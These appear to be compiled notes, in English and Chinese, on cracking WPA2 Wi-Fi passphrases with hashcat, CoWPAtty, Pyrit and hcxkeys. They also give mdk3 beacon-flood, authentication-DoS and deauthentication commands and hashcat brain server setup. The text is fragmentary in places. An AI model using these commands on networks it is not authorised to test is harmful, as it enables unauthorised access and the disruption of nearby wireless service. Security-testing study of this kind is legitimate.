        * Device #3: GeForce GTX 1080, 2029/8119 MB allocatable, 20MCU
        * Device #4: GeForce GTX 1080, 2029/8119 MB allocatable, 20MCU
        
        Hashes: 1 digests; 1 unique digests, 1 unique salts
        Bitmaps: 16 bits, 65535 entries, 0x 0000ffff mask, 262144 bytes, 5/13 rotates

        Applicable optimizers:
        * Zero-Byte
        * Single-Hash
        * Signle-Salt
        * Brute-Force
        * Slow-Hash_SIMD-LOOP
        
        Minimum password length supported by kernel: 8
        Maximum password length supported by kernel:63

        Watchdog: Temperature abort trigger set to 90c

        2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf0e761f4*ed487162465a774bfba60eb603a39f3a:hashcat!

        Session......:hashcat
        Status.......:Cracked
        Hash.Type....:WPA-PMKID-PBKDF2
        Hash.Target..:2582a8281bf9d4308d6f5731d0e61c61*4604ba734d4e*89acf...a39f3a
        Time.Started...: Thu Jul 26 12:51:38 2018 (41 secs)
        Time.Estimated..:Thu Jul 26 12:52:19 2018 (0 secs)
        Guess.Mask......:?l?l?l?l?l?lt![8]
        Guess.Queue.....:1/1(100.00%)
        Speed.Dev.#1....: 408.9 kH/s (103.86.ms) @ Accel:64 Loops:128 Thr:1024 Vec:1
        Speed.Dev.#2....: 408.6 kH/s (104.90ms) @ Accel:64 Loops:128 Thr:1024 Vec:1
        Speed.Dev.#3....: 412.9 kH/s (102.50ms) @ Accel:64 Loops:128 Thr:1024 Vec:1
        Speed.Dev.#4....: 410.9 kH/s (104.66ms) @ Accel:64 Loops:128 Thr:1024 Vec:1
        Speed.Dev.#*....: 1641.3 kH/s
        Recovered.......: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
        Progress........: 66846720/308915776 (21.64%)
        Rejected........: 0/66846720 (0.00%)
        Candidates.#1...: hariert! -> hhzkzet!
        Candidates.#2...: hdtivst! -> hzxkbnt!
        Candidates.#3...: gnxpwet! -> gwqivst!
        Candidates.#4...: hxhcddt! -> hrjmrut!
        HWMon.Dev.#1.....: Temp: 81c Fan: 54% Util: 75% Core:1771MHz Mem:4513MHz Bus:1
        HWMon.Dev.#2.....: Temp: 81c Fan: 54% Util:100% Core:1607MHz Mem:4513MHz Bus:1
        HWMon.Dev.#3.....: Temp: 81c Fan: 54% Util: 94% Core:1683MHz Mem:4513MHz Bus:1
        HWMon.Dev.#4.....: Temp: 81c Fan: 54% Util: 93% Core:1620MHz Mem:4513MHz Bus:1

        Started: Thu Jul 26 12:51:30 2018
        Stopped: Thu Jul 26 12:52:21 2018

## [Cracking using the Pre-computed PMKs](https://rootsh3ll.com/rwsps-speeding-wpa2-psk-cracking-using-pre-generated-pmks-ch5pt1/)
???There's also support for hash-mode 16801, which allows skipping the computation of the PMK - which is the computation that makes cracking WPA so slow. Pre-computing PMK can be useful in cases where you are on site and you cannot transfer a hash to a remote cracking rig because of an NDA. The goal is to run hashcat on your notebook which you can bring to the site.
The mode 16801 expects a list of pre-computed PMKs, as hex encoded strings of length 64, as the input wordlist. To pre-compute the PMKss you can use the hcxkeys tool. The hcxkeys tools requre the ESSID, so you need to ask for the ESSID from your client in advance.???

If you are following the series from the very beginning you must be familiar with the Handshake we captured and used it with a Wordlist to crack the WPA-PSK. As there is a tremendous possibility for WPA2 passphrases as they can be AlphaNumeric including special characters that too with 8-64 characters long. There is practically no limit to the wordlist we could create. They can reach even PetaBytes in size which will take time till next Big Bang for the CPU/GPU to crack the correct passphrase, if it is a strong one.
So, we need to discover various ways to crack the WPA-PSK within a short span of time. Which is possible if we somehow get the PSK via router panel, keylogger or use a GPU instead of CPU to use its multiple cores to boost cracking speed, or something even different.
That is what we will learn in this chapter. We will boost the WPA2 crakcing speed without using any GPU or Cloud. Which can be very useful with the AP's very common name like "Airtel", "MTNL", "Belkin" etc.
WPA2 cracking is dependent on SSID and passphrase that meas that if there are 2 access points with different SSID but same Passphrase, their PMKs will be completely different.
此外，它还支持散列模式16801，这样会跳过PMK的计算——正是该计算拖慢了WPA的破解速度。因NDA而无法将哈希值传输到远程破解装置时，预先计算PMK就会变得非常有用，这时可以在您的笔记本上运行hashcat。

模式16801通常需要用到预先计算的PMK列表，其中为长度为64的十六进制编码串，作为输入词列表使用。为了预先计算PMK，可以使用hcxkeys工具。但是，hcxkeys工具需要用到ESSID，因此，我们需要提前从客户端请求ESSID。
### Pre-computing PMKs using CoWPAtty and Pyrit and Cracking
#### Content of this chapter will go like this
* Introduction
    * CoWPAtty
    * Pyrit
* Installation
    * CoWPAtty from Source code
    * Pyrit from Source code
* Generate PMKs
    * Using GenPMK, Included in CoWPAtty (Single-threaded)
    * Using Pyrit (Multi-threaded)
* Cracking PSK (Pre-Shared Key):
    * With PMKs [CoWPAtty vs Aricrack-ng]
    * [EXTRA!]Pyrit + CoWPAtty Stdin
#### Introduction
##### What is CoWPAtty?
CoWPAtty is a free command line tool that automates the dictionary attack for WPA-PSK. It runs on Linux. It is an implementation of an offline dictionary attack against WPA/WPA2 networks using PSK-based authentication. CoWPAtty take 2 types of input to crack WPA-PSK i.e
1. Standard Wordlist
2. Pre-generated PMKs or Hash
CoWPAtty comes pre-installed in Kali Linux.
CoWPAtty can be downloaded from www.willhackforsushi.com
##### What is Pyrit?
Pyrit is a tool written in Python that allows you to create masssive databases, pre-compute the WPA-PSK to save time. This technique is called space-time-tradeoff. Pyrit supports both CPU and GPU. For using GPU you need to install supported graphics driver.
Pyrit comes pre-installed in Kali Linux. Pyrit can be downloaded from https://github.com/JPaulMora/Pyrit
###### What is space-time-tradeoff?
What we actually do is we pre-compute the PMK (Pairwise Master Key) with corresponding SSID and store it on a hard drive and we can use it at anytime with the cap file for the same SSID, as WPA-PSK is SSID and Password sensitive. As we have pre-computed the PMKs and stored on our hard drive, it is just like a lookup for the system into the table which doesn't take much time and cracking speed is very high, saving us a lot of time.
Only condition is there must be a Pre-computed file with same SSID and different passphrase picked from a wordlist. Although even this doesn't guarantee cracking the PSK but cracking speed is significantly higher than any CPU or GPU, that we will see in this tutorial.
#### Installation
##### Installing CoWPAtty from Source code

        cd ~/Desktop
        wget http://www.willhackforsushi.com/code/cowpatty/4.6.cowpatty-4.6.tgz
        tar xzvf cowpatty-4.6.tgz
        cd cowpatty-4.6
        make        # Compile Source code to Executable Binaries
        sudo cp cowpatty /usr/bin  # Copy CoWPAtty Executable to /usr/bin folder to run as command

##### Installing Pyrit from Source code

        wget https://pyrit.googlecode.com/files/pyrit-0.4.0.tar.gz
        tar xzvf ppyrit-0.4.0.tar.gz
        cd pyrit-0.4.0
        python setup.py build    # Build setup
        sudo python setup.py install   # Installing Pyrit

#### Generate PMKs
##### Generate PMKs using GenPMK
GenpMK is a tool which installs along with cowpatty as a substitute for generating the hash file (PMKs) and allowing coWPAtty ot crack WPA2-PSK at higher speeds.
Let's see how to create PMKs using GenPMK.
`genpmk -f "wordlist" -d "output_filename" -s "SSID"`
`genpmk -f "length08.txt" -d "GENPMK_rootsh3ll" -s "rootsh3ll"`
Now you should see a similar output

Note: GENPMK_rootsh3ll doesn't exist, so genpmk created a new file. In case the file already exists, the hashes will be appended to the existing file.
Now wait for genpmk to finish creating PMKs, and it will show you the average speed (Passphrase/sec) at which it generated PMKs. Mine was
`20000 passphrases tested in 54.94 seconds: 363.99 passphrases/second`
As I have told already, GenPMK is a singe threaded program. Here you can see that while running GenPMK only one core was used to 100%.

##### Generate PMKs using Pyrit
`pyrit -o "output_filename" -i "wordlist" -e "SSID" passthrough`
`pyrit -o "PYRIT_rootsh3ll" -i "length08.txt" -e "rootsh3ll" passthrough`
If you notice, options required are still the same but we have just changed the output filename with a prefix "PYRIT" to distinguish the PMKs generated using Pyrit and GenPMK.
`passthrough` is an option in pyrit used to create the PMKs from the passphrase take from the dictionary at a moment. Speed is comparitively high from GenPMK.

363.99 vs. 2089. why? Because GenPMK is a single threaded program whereas Pyrit is a tool that utilizes full power of the CPU i.e either 4 cores or 8 cores, so pyrit will get the maximum power. Which is that makes it better option to choose for generating PMKs over GenPMK.

#### Crack WPA2-Pre Shared Key [CoWPAtty vs. Aircrack-ng]
It would be better if we first check the aircrack-ng's cracking speed on this system and then notice a boost in speed using CoWPAtty.
##### Cracking WPA2-PSK with Aircrack-ng
Requirements:
* 4-way EAPOL Handshake (Pcap file)
* Wordlist (8-63 character length)
In this example I have kept real password at the end of the filel and checked the maximum speed aircrack-ng reached while cracking the PSK.
* `aircrack-ng -w <wordlist> <Pcap file>`
    `aircrack-ng -w length08.txt roootsh3ll-01.cap`
    Notice the speed:
    
    1708.09 Keys/sec, that's what aircrack-ng reached at max on my system (i5, 2.5 GHz).
* Now we will use the pre-computed PMKs with CoWPAtty and see the difference in speed
    Note: There is no GPU involved in generation of PMKs or cracking of Key at any step.
    `cowpatty -d <Hash File> -r <Pcap file> -s <SSID>`
    `cowpatty -d PYRIT_rootsh3ll -r rootsh3ll-01.cap -s rootsh3ll`
    You can also use GENPMK_rootsh3ll, both are the same. I am using PYRIT_rootsh3ll because it contains more passphrases (PMKs) due to the higher calculation speed of Pyrit.
    
See the difference, with same system, same RAM, no GPU included and almost 12,676% of boost in speed.
Aircrack-ng:1708 Passphrases/second
Cowpatty with pre-generated PMK: 216521 Passphrases/second
This has been possible just because we had pre-comuted Keys and what CoWPAtty had to do is just lookup the hash file, but no calculations involved.
We have already learned in the one of the starting chapters of the series that the most crucial part of the WPA2-PSK cracking is the PBKDF2 function which goes like this:
PBKDF2(Passphrase,SSID,ssidLen,4096,256)
PBKDF2 stands for Password Based Key Derivation Function which uses a Passphrase and an SSID, length of SSID (9 for 'rootsh3ll') iterates 4096 times for each passphrase, hashing with SHA1 algorithm and come out with a 256-bit key that is called PMK.
One password takes 4096 CPU iterations to come out with 256-bit PSK. Imagine a wordlist containing a million passphrases. How many CPU cycles will it take for that wordlist to process and generate the PMKs? 4,096,000,000! That's 4 billion iterations for a million words. Even 1 million words are nothing Dictionary sizes go way beyond GigaBytes, or TeraBytes.
This is why we get very less cracking speeds as compared to MD5, SHA1 Hash cracking.
##### [EXTRA!] Pyrit+CoWPAtty Stdin
Now, we have learned to separately create PMKs and using it with CoWPAtty to boost the cracking speeds. Here is one method, which doesn't improves the speed compared to aircrack-ng but is very interesting to learn and see the working of the commands as well as the terminal, since this series is for beginners this thing is a worthwhile.
Here what we are going to do is:
1. We will pass a dictionary(8-63 char length) to pyrit and tell it to generate the PMKs and
2. We will not write the output to a file rather passing it to CoWPAtty
3. CoWPAtty will receive PMKs as a stdin(standard input) and
4. cracking will begin
You can see this as a sophisticated version of cracking with aircrack-ng as in aircrack-ng we just pass the cap file and dictionary. This will be quite long and deep in terms of understanding.
Here is the command:
`pyrit -i length08.txt -e rootsh3ll -o - passthrough | cowpatty -d - -r rootsh3ll-01.cap -s rootsh3ll`
What we did is we passed the output of the pyrit command to the CoWPAtty in realtime and CoWPAtty is executing at the same time and trying to crack the passphrase.
We neither used any output filename with Pyrit(PYRIT_rootsh3ll previously), nor input file for CoWPAtty with `-d` option that is for hash file.
We used another Linux Shell's feature to store the input in the STDIN(Standsard Input) and receive it at the same time from STDIN. This is done by using `-` operator. This operate works as STDIN when we have to direct some output to/from a file. i.e writing to Hash file with pyrit and taking input from Hash file with CoWPAtty. We replaced both the filenames with `-` that simply means Pyrit will write the calculated PMKs to Standard Input and the output will be passed using `|` operator to the CoWPAtty command. Now at the very same moment at which CoWPAtty starts retrieving the Input from the STDIN, as told to `-d` option, CoWPAtty will take the calculated PMKs from the STDIN and start cracking the PSK.
This is what it will look like when executed:

Speed is almost similar to what aircrack-ng was calculating at because PMKs are being calculated at realtime and being passed to CoWPAtty. CPU is being consumed!
Hope you got a better insight of what happens while cracking and speeding up the whole process.

### Pre-computing PMKs using hcxkeys tool and cracking
#### Installation
* `git clone https://github.com/ZerBea/hcxkeys`
* `cd hcxtools`
* `make`
    If prompted with "fatal error: CL/cl.h: No such file or directory" or "cannot find '-lOpenCL'"
    `sudo apt install opencl-headers`
    `sudo apt install ocl-icd-libopencl1`
    `sudo apt install ocl-icd-opencl-dev`
* `sudo make install`
#### Description

Tool|Description
--|--
wlangenpmk|Generate plainmasterkeys (CPU) from essid and password for use with hashcat hash-mode 2501 ???can not be used with hash-mode 16801????
wlangenpmkocl|Generates plainmasterkeys (GPU) from essid and password for use with hashcat hash-mode 2501 ???can not be used with hash-mode 16801???
pwhash|Generate hash of a word by using a given charset

#### `wlangenpmkocl --help`
* Options:
    * `-e <essid>`: input single essid (networkname 1 .. 32 characters) requires `-p`
    * `-p <password>`: input single password (8 .. 63 characters) requires `-e`
    * `-i <file>`: input passwordlist
    * `-I <file>`: input combilist (essid:password)
    * `-a <file>`: output plainmasterkeys as ASCII file (`hashcat -m 2501`)
    * `-A <file>`: output plainmasterkeys:password as ASCII file
    * `-c <file>`: output cowpatty hashfile (existing file will be replaced)
    * `-P <platform>`: input platform, default 0 (first platform)
    * `-D <device>`: input device, default 0 (first device)
    * `-l` : list device info
    * `-h` : this help
* Examples of stdin/stdout usage:
    `cat wordlist | wlangenpmkocl -e <essid> | hashcat -m 2501 ...`
    `cat wordlist | wlangenpmkocl -e <essid> <pmklist>`
    or use classic mode:
    `wlangenpmkocl -e <essid> -i <wordlist> -a <pmklist>`
    or use mixed mode:
    `wlangenpmkocl -e <essid> -i <wordlist> <pmklist>`
## [About the Wireless Card](https://www.aircrack-ng.org/doku.php?id=compatible_cards)
Keep in mind your wireless card will need to support packet injection and monitoring mode.
If you want to use hcxdumptool to caputure wlan traffic, please note that your WiFi adapter must support this. ‎Not all drivers support this. This is a list of chipsets, known as working "out of the box" on latest Linux kernels (>= 4.14)
Supported and recommended cipsets:
* USB ID 148f:7601 Ralink Technology, Corp. MT7601U Wireless Adapter
* USB ID 148f:3070 Ralink Technology, Corp. RT2870/RT3070 Wireless Adapter
* USB ID 148f:5370 Ralink Technology, Corp. RT5370 Wireless Adapter
* USB ID 0bda:8187 Realtek Semiconductor Corp. RTL8187 Wireless Adapter
* USB ID 0bda:8189 Realtek Semiconductor Corp. RTL8187B Wireless 802.11g 54Mbps Network Adapter
To help other users to find a working adapter, please report your favourite adapters here:
* TENDA W311U+ my favourite adapter
* LOGILINK WL0151 my second favourite adapter
* ALLNET ALL-WA0150N nice for portable operations
* Alfa AWUS036H working, but too much power consumption
* Alfa AWUS036NH working, but too much power consumption
* ALFA AWUS036NHA (black) - Atheros AR9271
* ALFA AWUS036H (grey) - Realtek RTL8187
* ALFA AWUS036NH (green) - Ralink RT2870/RT3070
Please keep in mind:
Some VENDORs change the chipset, but keep the same product name. Make sure, that a supported chipset is inside!
### Introduction
### Determine your requirements and constraints
### Learn the basics of a wireless card
### Determine the chipset
### Verify the chipset capabilities
### Determine the drivers and patches required
[Determine the driver](https://www.aircrack-ng.org/doku.php?id=compatibility_drivers#drivers)
### Select a card

## mdk3 
### installation
* 首先获取源代码

            wget http://linux.gungoos.com/mdk3-v6.tar.gz
            tar xvzf mdk3-v6.tar.gz
            cd mdk3-v6
  如果遇到这种错误,试试直接用Firefox访问那个地址下载吧。
* 修改Makefile文件

            sudo vim Makefile
    将 “-lpthread” 替换成 “-pthread”。之后按ctrl + x -> Y (enter) -> enter
* 编译

        sudo make
    这里make之后会刷出很多warnings，但并不影响编译。
* 安装

        sudo make install
* 测试

        sudo mdk3
### use modes
#### Beacon Flood Mode
这个模式可以产生大量死亡SSID来充斥无线客户端的无线列表，从而扰乱无线使用者；我们甚至还可以自定义发送死亡SSID的BSSID和ESSID、加密方式（如wep/wpa2）等。

        mdk3 mon0 b
              -n <ssid>        #自定义ESSID
              -f <filename>            #读取ESSID列表文件
              -v <filename>           #自定义ESSID和BSSID对应列表文件
              -d         #自定义为Ad-Hoc模式
              -w         #自定义为wep模式
              -g           #54Mbit模式
              -t            # WPA TKIP encryption
              -a           #WPA AES encryption
              -m          #读取数据库的mac地址
               -c <chan>                   #自定义信道
               -s <pps>                #发包速率
        mdk3 --help b  #查看详细内容
##### Example 1
`sudo mdk3 mon0 b -f wordlist1.txt -a -c 6 -s 80`

./wordlist1.txt

        burpS
        WPSHAK
##### Example 2
固定FakeAP的MAC
`sudo mdk3 mon0 b -v wordlist2.txt -a -c 6 -s 80`

./wordlsit2.txt

        AA:BB:CC:DD:AA:EE burpSuite
        11:22:33:DD:AA:EE WPSHAK
##### 效果说明
PC可以容易看到 FakeAP，但是 Android 的 WLAN 扫描不容易看到，原因暂不明。
#### Authentication Dos Mode
##### 详细说明
这是一种验证请求攻击模式：在这个模式里，软件自动模拟随机产生的mac向目标AP发起大量验证请求，可以导致AP忙于处理过多的请求而停止对正常连接客户端的响应；这个模式常见的使用是在 reaver 穷据路由 PIN 码，当遇到AP被“pin死”时，可以用这个模式来直接让AP停止正常响应，迫使AP主人重启路由。

        mdk3 mon0 a
              -a <ap_mac>              #测试指定BSSID
              -m              #使用有效数据库中的客户端mac地址
              -c          #对应 -a ，不检查是否测试成功
              -i  <ap_mac>           #对指定BSSID进行智能攻击
              -s <pps>               #速率，默认50
##### Example 1
`sudo mdk33 mon0 a -a EC:88:8F:A1:A5:90 -s 200`
似乎无效
手机连接AP正常上网
#### Deauthentication/Disassociation Amok Mode
##### 详细说明
这个模式看名称就知道大概了：强制解除验证解除连接！在这个模式下，软件会向周围所有可见AP发起循环攻击……可以造成一定范围内的无线网络瘫痪（当然有白名单，黑名单模式），直到手动停止攻击。

        mdk3 mon0 d
              -w <filename>             #白名单mac地址列表文件
              -b <filename>              #黑名单mac地址列表文件
              -s <pps>                        #速率，这个模式下默认无限制
              -c [chan,chan,chan,...]                  #信道，可以多填，如 2,4,5,1
##### Example 1
`sudo mdk3 d -s 120 -c 1,6,11`
#### Basic probing and ESSID Bruteforce Mode
##### 详细介绍
基本探测AP信息和ESSID猜解模式

        mdk3 mon0 p
              -e <ssid>          #待检测的ssid
              -f <filename>          #检测AP设置为隐藏的ssid列表文件
              -t <bssid>               #用bssid检测AP的信息
              -s <pps>                #速率，默认300
              -b <character set>              #设置字符集

## [Hashcat 说明](https://klionsec.github.io/2017/04/26/use-hashcat-crack-hash/)
### Install Hashcat on Ubuntu
* wget https://hashcat.net/files/hashcat-5.1.0.7z
* sudo 7z x hashcat-5.1.0.7z
* cd hashcat-5.1.0
* ls /usr/bin/ | grep -i hash
* sudo cp -v hashcat64.bin /usr/bin/
* sudo ln -s /usr/bin/hashcat64.bin /usr/bin/hashcat
* sudo cp -Rv OpenCL/ /usr/bin/
* sudo cp -v hashcat.hcstat2 /usr/bin/
* sudo cp -v hashcat.hctune /usr/bin/
### [New features in v5.0.0](https://hashcat.net/forum/thread-7903.html)
#### Allow hashfile for -m 16800 to be used with -m 16801
#### Slow candidates
Hashcat has a new generic password candidate interface called "slow candidates".
The first goal of this new interface is to allow attachment of advanced password candidate generators in the future (for example hashcat's table attack, kwprocessor, OMEN, PassGAN, PCFG, princeprocessor, etc.). At this time, the only attack modes that have been added are hashcat's straight attack (including rules engine), combinator attack, and mask attack (AKA brute-force with Markov optimizer). You can enable this new general password-candidate interface by using the new -S/--slow-candidates option.
The second goal of the slow candidates engine is to generate password candidates on-host (on CPU). This is useful when attacking large hashlists with fast hashes (but many salts), or generally with slow hashes. Sometimes we cannot fully run large wordlists in combination with rules, because it simply takes too much time. But if we know of a useful pattern that works well with rules, we often want to use rules with a smaller, targeted wordlist instead, in order to exploit the pattern. On GPU, this creates a bottleneck in hashcat's architecture - because hashcat can only assign the words from the wordlist to the GPU compute units.
A common workaround for this is to use a pipe, and feed hashcat to itself. But this traditional piping approach came at a cost - no ETA, no way to easily distribute chunks, etc. It was also completely incompatible with overlays like Hashtopolis. And if piping hashcat to itself isn't feasible for some reason, you quickly run into performance problems with small wordlists and large rulesets.
To demonstrate this, here's an example where you have a very small wordlist with just a single word in the wordlist, but a huge ruleset to exploit some pattern:
**Quote:**

        $ wc -l wordlist.txt
        1 wordlist.txt
        $ wc -l pattern.rule
        99092 pattern.rule

Since the total number of candidates is ([number-of-words-from-wordlist] * [number-of-rules]), this attack should theoretically be enough to fully feed all GPU compute units. But in practice, hashcat works differently internally - mostly to deal with fast hashes. This makes the performance of such an attack terrible:
**Quote:**

        $ ./hashcat -m 400 example400.hash wordlist.txt -r pattern.rule --speed-only
        ...
        Speed.#2.........:      145 H/s (0.07ms)
This is where slow candidates comes into play. To feed the GPU compute units more efficiently, hashcat applies rules on-host instead, creating a virtual wordlist in memory for fast access. But more importantly from hashcat's perspective, we now have a large wordlist, which allows hashcat to supply all GPU compute units with candidates. Since hashcat still needs to transfer the candidates over PCI-Express, this slows down cracking performance. In exchange, we get a large overall performance increase - multiple times higher, even considering the PCI-Express bottleneck - for both slow hashes and salted fast hashes with many salts,
Here's the exact same attack, but using the new -S option to turn on slow candidates:
**Quote:**

        $ ./hashcat -m 400 example400.hash wordlist.txt -r pattern.rule --speed-only -S
        ...
        Speed.#2.........:   361.3 kH/s (3.54ms)
#### The Hashcat brain
Keep in mind that according to the release notes, it is only worthy to use brain for very slow algorithms, otherwise the brain is a bottleneck.
##### By running command
Normally speaking, the hashcat brain server should have a large RAM.
No need to add `-z` in the task command of hashtopolis.
###### on the brain server side
    `hashcat --brain-server --brain-port=13743`
    root@Helium-XR-01:~# hashcat --brain-server --brain-port=13743 --brain-password=Woaini123

    1540763657.002542 | 0.00s | 0 | Generated authentication password: 78f581b2296937fb
    1540763657.002943 | 0.00s | 0 | Brain server started
    1540764152.164355 | 495.16s | 4 | Connection from xxx.yyy.xxx.yyy:53614
    1540764152.487870 | 0.32s | 4 | Session: 0x7451768d, Attack: 0x99708c5b, Kernel-power: 64
    1540764152.673725 | 0.19s | 4 | R | 0.06 ms | Offset: 0, Length: 64, Overlap: 0
    1540764153.009471 | 0.34s | 4 | L | 0.04 ms | Long: 0, Inc: 64, New: 64
    1540764656.023797 | 503.01s | 4 | Disconnected
###### On the client side

        hashcat --brain-client --brain-host=IP --brain-port=13743 --brain-password=78f581b2296937fb -m 3200 -a 0 /root/left_3200.txt /usr/share/wordlists/bcrypt_dic.txt 
        Session..........: hashcat (Brain Session/Attack:0x7451768d/0x99708c5b)
        Status...........: Quit
        Hash.Type........: bcrypt $2*$, Blowfish (Unix)
        Hash.Target......: /root/left_3200.txt
        Time.Started.....: Sun Oct 28 23:02:31 2018 (8 mins, 24 secs)
        Time.Estimated...: Sun Jun 7 00:16:20 2037 (22 days)
        Guess.Base.......: File (/usr/share/wordlists/bcryt_dic.txt)
        Guess.Queue......: 1/1 (100.00%)
        Speed.#1.........: xxx kH/s (4.94ms) @ Accel:4 Loops:1 Thr:8 Vec:4
        Recovered........: 0/506 (0.00%) Digests, 0/506 (0.00%) Salts
        Progress.........: 6208/7258259316 (0.00%)
        Rejected.........: 0/6208 (0.00%)
        Brain.Link.#1....: N/A
        Restore.Point....: 0/14344386 (0.00%)
        Restore.Sub.#1...: Salt:97 Amplifier:0-1 Iteration:127-128
        Candidates.#1....: 123456 -> charlie

##### By configuring a service ??? service cannot be started
###### On the brain server side
* Cretated a "hashcat_brain_server.service" file in the directory /etc/systemd/system/:
    `vim /etc/systemd/system/hashcat_brain_server.service`
    [Unit]
    Description= Start hashcat brain server
    [Service]
    Type=simple
    ExecStart=/bin/bash -c "/usr/local/bin/hashcat --brain-server --brain-port=1374 --brain-password=password"
    Restart=on-failure
    [Install]
    WantedBy=multi-user.target
    Alias=hashcat-brain.service
* reload the systemd daemon
    `systemctl daemon-reload`
* Check server with `netstat` or `ss` commands
    
        root@Helium-XR-01:~# netstat -antp
        Active Internet connections (servers and established)
        Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
        tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      666/apache2     
        tcp        0      0 xxx.xxx.xxx.xxx:1374      0.0.0.0:*               LISTEN      32397/hashcat   
        tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      627/mysqld      
        tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      666/apache2     
        ......    
        tcp6       0      0 :::22                   :::*                    LISTEN      612/sshd 
* Check service status:

        root@Helium-XR-01:~# systemctl status hashcat-brain.service
        ● hashcat_brain_server.service - Start hashcat brain server
        Loaded: loaded (/etc/systemd/system/hashcat_brain_server.service; enabled; vendor preset: disabled)
        Active: active (running) since Mon 2018-11-05 09:23:39 UTC; 21h ago
         Main PID: 32397 (hashcat)
        Memory: 2.7G
        CGroup: /system.slice/hashcat_brain_server.service
         └─32397 /usr/local/bin/hashcat --brain-server --brain-host=xxx.xxx.xxx.xxx --brain-port=1374 --brain-password=pasword
        Nov 05 09:23:47 Helium-XR-01 bash[32397]: 1541409827.242933 | 0.00s |  -1 | Read 34688 bytes from attack 0xcbd4ae46 in 0.35 ms
        Nov 05 09:23:47 Helium-XR-01 bash[32397]: 1541409827.243136 | 0.00s |  -1 | Read 1264 bytes from attack 0x1a2fb5c0 in 0.19 ms
        Nov 05 09:23:47 Helium-XR-01 bash[32397]: 1541409827.243339 | 0.00s |  -1 | Read 16 bytes from attack 0x442d5481 in 0.19 ms
        Nov 05 09:23:47 Helium-XR-01 bash[32397]: 1541409827.243524 | 0.00s |  -1 | Read 1280 bytes from attack 0x77980c15 in 0.17 ms
        Nov 05 09:23:47 Helium-XR-01 bash[32397]: 1541409827.243808 | 0.00s |  -1 | Read 8896 bytes from attack 0x0ca746f1 in 0.27 ms
        Nov 05 09:23:47 Helium-XR-01 bash[32397]: 1541409827.244122 | 0.00s |  -1 | Read 11264 bytes from attack 0x9468c39d in 0.25 ms
        Nov 05 09:23:47 Helium-XR-01 bash[32397]: 1541409827.244306 | 0.00s |  -1 | Read 320 bytes from attack 0xd78528ce in 0.17 ms
        Nov 05 09:23:47 Helium-XR-01 bash[32397]: 1541409827.245787 | 0.00s |  -1 | Read 186320 bytes from attack 0xa7865a4f in 1.47 ms
        Nov 05 09:23:47 Helium-XR-01 bash[32397]: 1541409827.246027 | 0.00s |  -1 | Read 11632 bytes from attack 0x08434f8d in 0.23 ms
        Nov 05 09:23:47 Helium-XR-01 bash[32397]: 1541409827.246507 | 0.00s |  -1 | Read 49632 bytes from attack 0x8fe3d3e4 in 0.47 ms
* Check brain-server logs

        root@Helium-XR-01:~# journalctl -u hashcat_brain_server
        -- Logs begin at Thu 2018-11-01 12:50:29 UTC, end at Tue 2018-11-06 06:31:27 UTC. --
        Nov 01 12:50:29 Helium-XR-01 bash[27864]: 1541076628.986307 | 0.00s | 4 | R |  0.06 ms | Offset: 806060, Length: 629, Overlap: 0
        Nov 01 12:50:29 Helium-XR-01 bash[27864]: 1541076628.986639 | 0.00s | 4 | L |  0.18 ms | Long: 1361261, Inc: 518, New: 284
        Nov 01 12:50:29 Helium-XR-01 bash[27864]: 1541076629.158441 | 0.17s | 4 | C |  0.11 ms | Attacks: 2
        Nov 01 12:50:29 Helium-XR-01 bash[27864]: 1541076629.161942 | 0.00s | 4 | C |  3.48 ms | Hashes: 679
        Nov 01 12:50:29 Helium-XR-01 bash[27864]: 1541076629.162074 | 0.00s | 4 | R |  0.09 ms | Offset: 806689, Length: 1024, Overlap: 0
        Nov 01 12:50:29 Helium-XR-01 bash[27864]: 1541076629.162703 | 0.00s | 4 | L |  0.25 ms | Long: 1361940, Inc: 855, New: 435
        Nov 01 12:50:29 Helium-XR-01 bash[27864]: 1541076629.163276 | 0.00s | 4 | R |  0.07 ms | Offset: 807713, Length: 589, Overlap: 0
        Nov 01 12:50:30 Helium-XR-01 bash[27864]: 1541076629.163630 | 0.00s | 4 | L |  0.21 ms | Long: 1361940, Inc: 586, New: 298
        Nov 01 12:50:30 Helium-XR-01 bash[27864]: 1541076629.349158 | 0.19s | 4 | C |  0.10 ms | Attacks: 2
        Nov 01 12:50:30 Helium-XR-01 bash[27864]: 1541076629.352393 | 0.00s | 4 | C |  3.22 ms | Hashes: 733
        Nov 01 12:50:30 Helium-XR-01 bash[27864]: 1541076629.353318 | 0.00s | 4 | R |  0.07 ms | Offset: 808302, Length: 1024, Overlap: 0
        Nov 01 12:50:30 Helium-XR-01 bash[27864]: 1541076629.353811 | 0.00s | 4 | L |  0.28 ms | Long: 1362673, Inc: 1018, New: 506
        Nov 01 12:50:30 Helium-XR-01 bash[27864]: 1541076629.354136 | 0.00s | 4 | R |  0.06 ms | Offset: 809326, Length: 518, Overlap: 0
        Nov 01 12:50:30 Helium-XR-01 bash[27864]: 1541076629.354412 | 0.00s | 4 | L |  0.15 ms | Long: 1362673, Inc: 501, New: 249
        Nov 01 12:50:30 Helium-XR-01 bash[27864]: 1541076629.549692 | 0.20s | 4 | C |  0.10 ms | Attacks: 2

###### On the client side
`hashcat --status -O -z --brain-host=IP of the hashcat-brain-server --brain-port=1374 --brain-password=password -m 3200 -a 0 hash.txt dictionary.txt -r rules.rule`

#### 避免重复???
* `-z`
* Need a hashcat brain server
### need to be solved
  * install intel opencl sdk，速度太慢，查看hashcat硬件及驱动要求
      * Intel's OpenCL runtime (GPU only) is currently broken
      * `--gpu-accel 160` not working
      * `-D 1,2,3` not working properly
      * too slow
      * cpu报错
  * Outdated or broken Intel OpenCL runtime detected!
### how to install OpenCL drivers
#### for intel cpu
##### requirements
Intel CPUs require "OpenCL Runtime for Intel Core and Intel Xeon Processors" (16.1.1 or later)
##### how to install/reinstall
Plug the HDMI cable on the port of the integrated graphic card if you want to use the integrated card.
1. Completely uninstall the current driver
  * Windows: use software center
  * Linux:
    * NVIDIA: nvidia-uninstall
    * AMD: amdconfig --uninstall=force
    * If you installed the driver via a package manager (Linux), then you need to remove these packages too
    * Make sure to purge those package, not to just uninstall them
2. Reboot
3. For Windows only: download and start Driver Fusion (free version is enough; select “Display”, AMD/NVidia/Intel, ignore the warning about Premium version), then Reboot
